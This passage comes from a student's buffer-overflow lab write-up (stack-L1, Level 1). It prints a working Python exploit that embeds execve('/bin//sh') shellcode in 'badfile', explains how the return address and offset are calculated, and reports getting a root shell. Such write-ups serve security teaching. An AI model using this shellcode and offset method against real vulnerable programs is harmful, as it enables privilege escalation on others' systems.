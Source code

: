 ```python
# Place the shellcode within the payload
start = 517 - len(shellcode)
print(start)
content[start:start + len(shellcode)] = shellcode

# Determine the return address value
# and embed it within the payload
ret    = 0xffffcb1c + start
offset = (0xffffcb88 - 0xffffcb1c) + 4

L = 4     # Use 4 for 32-bit addresses and 8 for 64-bit addresses
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- Firstly, we updated the shellcode to `"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"`, which allows root prompt access without any permissions.

- Next, we adjusted the value of `start` to `start = 517 - len(shellcode)` to account for the input size minus the length of the code we are appending at the end.

- The subsequent step involved updating `ret` and `offset` as follows:
	```python
	ret    = 0xffffcb1c + start
	offset = (0xffffcb88 - 0xffffcb1c) + 4
	```
	`ret` corresponds to the buffer address (as obtained previously), and `offset` represents the difference between the ebp value and the buffer address, plus four. This value should be 112 because, as mentioned earlier, the difference between them is 108 in decimal.

Upon running `stack-L1`, we gained root-level command line access:

![Root-Level Command Line Access](image-20.png)
Fig.7 Got access to command line

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)
